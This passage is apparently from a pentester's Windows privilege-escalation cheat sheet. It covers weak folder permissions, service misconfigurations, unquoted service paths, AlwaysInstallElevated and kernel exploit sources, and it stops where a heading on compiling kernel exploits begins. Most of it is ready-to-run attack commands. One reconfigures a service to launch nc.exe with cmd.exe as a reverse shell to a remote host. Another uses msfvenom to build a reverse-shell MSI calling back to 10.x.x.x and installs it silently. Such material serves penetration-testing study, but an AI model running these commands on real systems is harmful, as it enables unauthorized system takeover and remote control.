 ```
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

* _**Binary planting**_ ([https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services))
  * `sc qc [service_name] // for service properties`
  * `sc query [service_name] // for service status`
  * `sc config [service_name] binpath= "C:\Temp\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"`
  * `sc config [service_name] obj= ".\LocalSystem" password= ""`
  * `net start [service_name]`

**Unquoted Service Path Privilege Escalation**

*   [https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/)

    ```
    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
    ```

#### PATH directories with weak permissions

```
C:\Temp> for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
C:\Temp> for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

C:\Temp> sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
C:\Temp> type Servicenames.txt
C:\Temp> FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
C:\Temp> FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

**Always Install Elevated :**

```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

msfvenom -p windows/shell_reverse_tcp LHOST=10.x.x.x LPORT=4444 –f  msi > install.msi

C:> msiexec /quiet /qn /i  install.msi
```

**Kernel Exploits :**

* [https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)
* [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
* run `systeminfo` | capture the output and run windows-exploit-suggester.py
* Compiling Kernel Exploits :
